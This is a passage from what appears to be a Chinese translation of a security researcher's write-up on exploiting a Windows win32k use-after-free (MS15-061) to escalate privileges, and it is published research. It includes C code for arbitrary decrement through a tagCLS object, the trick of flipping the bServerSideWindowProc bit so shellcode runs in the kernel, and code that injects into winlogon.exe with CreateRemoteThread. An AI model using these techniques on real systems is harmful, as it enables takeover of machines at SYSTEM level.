整合到一起，我们现在可以备份要攻击的 tagCLS 对象。然后，篡改偏移 0x58
来任意自减。

.. code:: c

    VOID BackupVictimCLS(HWND tagWndHwnd){
             DWORD krnlTagWndHwnd = FindW32kHandleAddress(tagWndHwnd);
             DWORD userTagWndHwnd = krnlTagWndHwnd - g_ulClientDelta;
             DWORD krnlVictimTagCLS = *(DWORD *)(userTagWndHwnd + 0x64);
             DWORD userVictimTagCLS = krnlVictimTagCLS - g_ulClientDelta;
             memcpy(originalCLS, userVictimTagCLS, 0x5c);
             return 0;
    }
    VOID ArbDecByOne(DWORD addr){
    ...
    *(DWORD *)(originalCLS + 0x58) = addr – 0x4;
    ...
    }

4.3 tagWND 结构
***************

我决定使用 Nils【10】阐述的技巧，该技巧从曾用于 Pwn2Own 2013。
首先，我创建了一个新的 win32k 窗口对象，也就是 tagWND 结构。 接着，把
shellcode 存储到它的的窗口过程中。再接着，
多次触发释放后重用来反转刚刚创建的 tagWND 结构的 bServerSideWindowProc
比特。这是因为我们需要自减这个值 直到它卷到零下并且设置 bServerSideProc
比特。

::

    kd> dt win32k!tagWND
         +0x000 head                 : _THRDESKHEAD
         +0x014 state                : Uint4B
         +0x014 bHasMeun             : Pos 0, 1 Bit
         +0x014 bHasVerticalScrollbar : Pos 1, 1 Bit
         +0x014 bHasHorizontalScrollbar : Pos 2, 1 Bit
         +0x014 bHasCaption          : Pos 3, 1 Bit
         +0x014 bSendSizeMoveMsgs : Pos 4, 1 Bit
         +0x014 bMsgBox              : Pos 5, 1 Bit
         +0x014 bActiveFrame         : Pos 6, 1 Bit
         +0x014 bHasSPB              : Pos 7, 1 Bit
         +0x014 bNoNCPaint           : Pos 8, 1 Bit
         +0x014 bSendEraseBackground : Pos 9, 1 Bit
         +0x014 bEraseBackground : Pos 10, 1 Bit
         +0x014 bSendNCPaint         : Pos 11, 1 Bit
         +0x014 bInternalPaint       : Pos 12, 1 Bit
         +0x014 bUpdateDirty         : Pos 13, 1 Bit
         +0x014 bHiddenPopup         : Pos 14, 1 Bit
         +0x014 bForceMenuDraw       : Pos 15, 1 Bit
         +0x014 bDialogWindow        : Pos 16, 1 Bit
         +0x014 bHasCreatestructName : Pos 17, 1 Bit
         +0x014 bServerSideWindowProc : Pos 18, 1 Bit
    Snipped

如果设置了 bServerSideWindowProc 比特，
关联窗口的过程将不进行情景切换就执行，
并且它以内核线程执行存储在窗口过程中的 shellcode。

现在 bServerSideWindowProc 比特已经设置了， 通过调用
SendMessage(pwndHwnd, 0x1337, 0x1337, 0x0) 函数。
这使得我们可是执行存储在与 pwndHwnd 窗口句柄关联窗口过程中的 shellcode。

4.4. 代码注入
*************

考虑到大家蛮关注 Hacking Team 的本地提权漏洞转储【11】，我使用在 Cesar
Cerrudo 的简易本地 Windows 内核漏洞利用论文中阐述的内核 shellcode 把
winlogon.exe 进程的 ACL 清零。然后将计算器的 shellcode 注入到
winlogon.exe 进程的内存空间。最后，使用 CreateRemoteThread
来调用这个计算器。

.. code:: c

    LPVOID pMem;
    char shellcode[] = "";
    wchar_t *str = L"winlogon.exe";
    HANDLE hWinLogon = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetProcId(str));
    pMem = VirtualAllocEx(hWinLogon, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT,
    PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hWinLogon, pMem, shellcode, sizeof(shellcode), 0);
    CreateRemoteThread(hWinLogon, NULL, 0, (LPTHREAD_START_ROUTINE)pMem, NULL, 0,
    NULL);

注意，计算器现在是以“NT AUTHORITY:raw-latex:`\SYSTEM`”权限在
winlogon.exe 的内存空间中运行的。

|image0|

5. 结论
-------

桌面堆用户模式映射的存在使得这个漏洞的利用十分有趣。它几乎可以被认为是一个强有力的信息泄漏。现在，漏洞利用的场景已经向客户端程序转移。为了绕过客户端程序实现的沙箱，内核漏洞利用程序成为了需要。

我期待读者的反馈或者错误纠正。如果我那里弄错了或者没有恰当的引用资料来源，你可以通过
Twitter @d0mzw，或者邮箱 dominicwang@nccgroup.trust
联系到我，我会予以修正并重新发布。

6. 致谢
-------

我想感谢以下个人对漏洞研究所做出的慷慨贡献:Tarjei Mandt，Mateusz
Jurczyk， Nils， Udi Yavov， 还有 Aaron
Adams。他们对主题的贡献使得我这次漏洞利用程序的开发变得更轻松。

最后我想感谢我的同事 Andrew Hickey，Aaron Adams 与 Michael Weber
帮我做的审阅与有用的建议。

7. 参考与进一步阅读
-------------------

[1] Microsoft, "Microsoft Security Bulletin MS15-061," 9 June 2015.
[Online]. Available:
https://technet.microsoft.com/en-us/library/security/ms15-061.aspx.

[2] U. Yavo, "Class Dismissed: 4 Use-After-Free Vulnerabilities in
Windows," 14 July 2015. [Online]. Available:
http://breakingmalware.com/vulnerabilities/class-dismissed-4-use-after-free-vulnerabilities-in-windows/.

[3] T. Mandt, "Kernel Attacks through User-Mode Callbacks," 2011.
[Online]. Available:
https://media.blackhat.com/bh-us-11/Mandt/BH\_US\_11\_Mandt\_win32k\_WP.pdf.

[4] A. Adams, "Exploiting the win32k!xxxEnableWndSBArrows use-after-free
(CVE-2015-0057) bug on both 32-bit and 64-bit," 8 July 2015. [Online].
Available:
https://www.nccgroup.trust/globalassets/newsroom/uk/blog/documents/2015/07/exploiting-cve-2015.pdf.

[5] Microsoft, "About Window Classes," [Online]. Available:
https://msdn.microsoft.com/en-us/library/windows/desktop/ms633574(v=vs.85).aspx#system.

[6] Microsoft, "About Atom Tables," [Online]. Available:
https://msdn.microsoft.com/en-us/library/windows/desktop/ms649053(v=vs.85).aspx.

[7] Microsoft, "CreateWindowEx function," [Online]. Available:
https://msdn.microsoft.com/en-us/library/windows/desktop/ms632680(v=vs.85).aspx.

[8] J. Tang, "Analysis of CVE-2015-2360 - Duqu 2.0 Zero Day
Vulnerability," Trend Micro, 17 June 2015. [Online]. Available:
http://blog.trendmicro.com/trendlabs-security-intelligence/analysis-of-cve-2015-2360-duqu-2-0-zero-day-vulnerability/.

[9] M. Jurczyk, "Windows X86 System Call Table
(NT/2000/XP/2003/Vista/2008/7/8)," Team Vexillium, [Online]. Available:
http://j00ru.vexillium.org/ntapi/.

[10] Nils, "MWR Labs Pwn2Own 2013 Write-up - Kernel Exploit," 6
September 2013. [Online]. Available:
https://labs.mwrinfosecurity.com/blog/2013/09/06/mwr-labs-pwn2own-2013-write-up---kernel-exploit/.

[11] Hacking Team, "hacking-team-windows-kernel-lpe," [Online].
Available: https://github.com/vlad902/hacking-team-windows-kernel-lpe.

[12] C. Cerrudo, "Easy local Windows Kernel exploitation," IOActive,
2012. [Online]. Available:
https://media.blackhat.com/bh-us-12/Briefings/Cerrudo/BH\_US\_12\_Cerrudo\_Windows\_Kernel\_WP.pdf.

.. |image0| image:: calc.png
